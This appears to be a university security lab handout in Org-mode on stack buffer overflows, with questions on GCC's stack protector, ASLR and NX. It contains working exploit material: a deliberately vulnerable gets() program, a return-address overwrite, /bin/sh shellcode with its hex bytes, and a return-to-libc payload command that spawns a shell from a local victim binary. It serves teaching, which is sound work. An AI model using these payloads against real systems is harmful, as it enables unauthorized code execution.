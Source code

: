 #+STARTUP: showall
#+STARTUP: lognotestate
#+TAGS:
#+SEQ_TODO: TODO STARTED DONE DEFERRED CANCELLED | WAITING DELEGATED APPT
#+DRAWERS: HIDDEN STATE
#+TITLE: Lab 8: Stack overflow
#+CATEGORY: todo

* Introduction

This week we are going to learn how programs exploit bad programming. In particular, how well-crafted input can force a program to execute something completely
different than what it was originally intended to do.

* Stack overflow

As you are probably well aware, C gives you total programming power. But with great power, comes great responsibility. One of the biggest problems with C is that
many programmers do not check that the data structures that they allocate in the stack are not overflown.

Compile and test the following simple program. Call it =smashing.c=

#+BEGIN_SRC C
#include <stdio.h>
#include <string.h>

void main()
{
  char buffer[10];
  puts("Type a very long string:");
  gets(buffer);
  if (strlen(buffer) < 50) {
    puts("I said long!!!!. Try again\n");
  } else {
    printf("Input: [%s]\n", buffer);
  }
}
#+END_SRC

Compile it (=gcc -o smashing smashing.c=)

*Q1. What is the warning you receive when you compile it?*

*Q2. What happens when you give it a long input?*


** GCC Stack-Smashing Protector (SSP)

gcc can help us defend against these types of buffer overflows. Newer versions of gcc have this protection enabled by default. Not in our lab machines. Instead
we need to enable it at compile time:

#+BEGIN_EXAMPLE
gcc -fstack-protector -o smashing smashing.c
#+END_EXAMPLE

Run it again.

*Q3 What is the difference now?*

* Subjugating a program: returning where we want

You already knew that it is easy to clobber the stack (I am sure you have done it plenty of times).  Can we do anything interesting by overwriting the stack?
Let us try. Call this program =subjugating.c=. Compile it and run it.

#+BEGIN_SRC C
#include <stdio.h>
#include <stdlib.h>
int i;

void do_not_execute(void)
{
  printf("\nDo not execute!!!!!!!!!!!!!\n");
  exit(1);
}

void function(void) {
  long int *stackTop = 0;
  stackTop = (long int*)&stackTop;
  for (i=0;i<16;i++) {
    printf("stack offset %d from stackTop: %x value %x\n",i, stackTop + i, *(stackTop+i));
  }
  *(stackTop + 4) = (long int)do_not_execute;
  printf("return to %x\n\n", *(stackTop+8));
}

void main() {
  int x;

  x = 0;
  printf("address of do_not_execute %x\n", do_not_execute);
  printf("address of function %x\n", function);
  printf("address of main %x\n", main);
  function();
  x = 1;
  printf("value of %d\n",x);
  printf("hello world\n");
}
#+END_SRC


*Q4. Why does it execute the function do_not_execute?* Hint, you should know what a stack frame is (remember your assembly programming?). If not head here: http://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64/

** Try Stack-Smashing Protector in this program

Enable SSP for this program.

*Q5. Why doesn't SSP work in this program?*

** Address Space Layout Randomization (ASLR)

Run the program several times. As you can see, the addresses of the stack change every time. This is a security counter-measure. This way it is more difficult to know
the addresses that we need to override (that is why I had to print the addresses of the stack to identify where to the return address was). Let us disable by running it as follows:

#+BEGIN_SRC bash
setarch `arch` -R ./subjugating
#+END_SRC

As you can see, now the stack is always exactly in the same place. This is our second counter-measure to stack overflows.

* Smashing to Subjugate

We have learned that we can make a program crash or execute code that is not intended to do. But, can we mix both at the same time? Of course we can.  But this
time we need to be crafty. And fortuantely Ben Lynn (a PhD graduate from Standford whose area of research is crypto) has created a great tutorial that we can
reuse.  Now head to https://crypto.stanford.edu/~blynn/rop/ and do the first part of the exercise (all the way to /The Importance of Being Patched/). I'll
simply add to his tutorial in areas that you will probably have trouble understanding.

But be careful about the following:

1. Change your prompt. This will make it easy to know if you are inside the shell executed by the program or not. In the terminal type
=PS1='TEST> '=
2. when you execute the binary of shell.c type exit to exit it.
3. There is a typo in the command that generates the file =shellcode=.
#+BEGIN_SRC bash
xxd -s0x4bf -l32 -p a.out shellcode
#+END_SRC
it should be (notice the redirection). Make sure you use the right address
#+BEGIN_SRC bash
xxd -s0x4bf -l32 -p a.out > shellcode
#+END_SRC
** system  call

In Linux =system= is a system call of the kernel. It is very simple. It is called using =syscall= with a value of 0x3b in the =rax= register, a pointer to
the command to execute in the =rdi= register; =rsi= points to the list of arguments, and =rdx= to the environment variables. In this case the latter two are
NULL.

** The assembly

This is a very well crafted piece of code. The challenge of the attack is to get the address of the command "/bin/sh" in the =rdi= register. But we have no clue
where this code is going to end, so the easiest is to get the address of the string into the stack and then pop it into the register. How do we do it? if we
call a function the stack automatically loads  the address immediately after the function. Let me do a play-by-play:

1. We jump to "there"
2. We call here (return to the top), this pushes the address of "/bin/sh" into the stack.
3. Now we pop the address of "/bin/sh" into =rdi=, clear =rax= and =rsi=, and do the syscall.
4. We do the syscall, which executes the command "/bin/sh" (the shell)

#+BEGIN_SRC C
int main() {
  asm("\
needle0: jmp there\n\
here:    pop %rdi\n\
         xor %rax, %rax\n\
         movb $0x3b, %al\n\
         xor %rsi, %rsi\n\
         xor %rdx, %rdx\n\
         syscall\n\
there:   call here\n\
.string \"/bin/sh\"\n\
needle1: .octa 0xdeadbeef\n\
  ");
}
#+END_SRC

** Extracting the binary

The command extracts the given bytes from your binary. Make sure you use the correct offset (in my case it was 0x495). It outputs the values in hexadecimal so
we can easily read it.

#+BEGIN_SRC BASH
xxd -s0x495 -l32 -p a.out > shellcode
#+END_SRC

Make sure your =shellcode= matches:

#+BEGIN_SRC BASH
cat shellcode
eb0e5f4831c0b03b4831f64831d20f05e8edffffff2f62696e2f736800ef
bead
#+END_SRC


* Executable space protection (NX)

As you learned in the tutorial above, code in the stack cannot be executed. This is a great countermeasure against stack overflows. Go back to the tutorial and do the section /Executable space perversion/

*Q6. What is the behaviour of the program when you enable NX?*

* If you have time...

Do the section /The Importance of Being Patched/. It will show you that it is possible to know the address of the stack we need to attack by using =ps=

* If your have more time... or want to keep playing...

The rest of the tutorial is fascinating, to say the least.

But we need to fix the tutorial so it works on our version of linux:

1. First, in order to get his attack to work in our lab computers you need to change the source
   code of =victim.c=. You need to change the size of the buffer from 64 to 128 bytes.
2. The location of the library is =/lib64/libc.so.6=
3. The addresses of =<system>= and =<exit>= that are extracted  using =nm= are absolute (it means we don't need to add the base)
#+BEGIN_SRC bash
nm -D /lib64/libc.so.6 | grep '\<exit\>'   | cut -f1 -d' '
nm -D /lib64/libc.so.6 | grep '\<system\>' | cut -f1 -d' '
#+END_SRC
4. You need to change the payload string to the =%0130d= to =%0256d= to compensate for the bytes we have added.

My values are:

| base             | 0x000000392ba00000 |
| gadget           |            0x20338 |
| system           | 0x000000392ba3e900 |
| exit             | 0x000000392ba35a50 |
| address of array |     0x7fffffffddd0 |

5. There is an error in his execution of the attack. He does not include any input to the command. Try the command below instead (remember to calculate your own
   values for base, gadget, system, and address of array).

#+BEGIN_SRC bash
( (
echo -n /bin/sh | xxd -p
printf %0258d 0;
printf %016x $((0x000000392ba00000+0x20338)) | tac -rs..
printf %016x 0x7fffffffddd0 | tac -rs..
printf %016x 0x000000392ba3e900 | tac -rs..
echo
) |  xxd -r -p; echo ; echo ls -lia ) | setarch `arch` -R ./victim
#+END_SRC

In a nutshell, this is the attack:

The goal is to replace the stack with the following data:

|----------------------------+--------------------------------------------------|
| address of function system |                                                  |
| address of /bin/sh         |                                                  |
| address of gadget          | this was the return address of the original call |
|                            |                                                  |
|----------------------------+--------------------------------------------------|

Let me explain the /gadget/. This is the code that is needed to execute (=pop rdi= then =retq=). These two instructions are simply two bytes 0x5f followed by
0xc3. Ben (the author of the page) shows us that all we need is to find those two bytes /somewhere/ (anywhere) in the executable section of the library of libc.

So here is the play by play:

1. Insert the payload into the stack, replace the return address of the function with the address of the gadget
2. Execute the gadget. The gadget pops the top of the stack (containing the address of /bin/sh into the register =rdi=
3. Executes the return =retq=. The return  address is the address of the =system= function. Control is transferred to it.
4. =system= behaves as expected. Executes =/bin/sh= (the shell)
5. At the end of =system= control is transferred to its return address (at the top of the stack,
6. The return value is invalid, so the program crashes with a segmentation fault. It is easy to fix it. Just add to the attack the address of =exit= and append
   that to the string that goes into the stack. I'll leave that as an exercise to the reader.

Happy coding

--dmg
